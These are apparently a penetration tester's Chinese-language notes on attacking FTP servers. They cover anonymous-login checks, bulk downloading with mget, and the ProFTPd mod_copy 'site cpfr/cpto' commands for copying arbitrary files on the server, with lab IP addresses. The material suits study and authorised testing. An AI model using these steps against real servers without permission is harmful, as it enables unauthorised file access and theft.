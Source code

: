 # ftp服务：21

默认端口：21

- anonymous 是否可以登录
- 如果可以登录是否可以使用 get 或 send 操作文件
- 使用浏览器是否可以访问，`ftp://<ip-address>`

## 常见漏洞

### 匿名访问漏洞

```
ftp 192.168.56.107
ftp-anon: Anonymous FTP login allowed (FTP code 230)
使用用户名：anonymous  密码为空  回车登录
提示：230 login successful 即为成功登录。
```

## FTP操作
### 切换至二进制模式

（减少可执行文件下载后损坏的可能性）
```
binary
```
提示：200 Switching tu binary mode;即为成功

### 批量下载

```
#关掉交互式提示
prompt

binary

#下载当前目录所有文件
mget *.txt
```

### 下载整个目录及其子目录中的所有文件

```
mget -R *
```

### ProFTPd拷贝漏洞

```
telnet 192.168.56.254 21      连接交互式服务

site cpfr /home/patrick/version_control           想要复制的文件在远程机的路径
site cpto /home/ftp/version_control    复制后，文件存储在远程机的路径

QUIT     退出
```
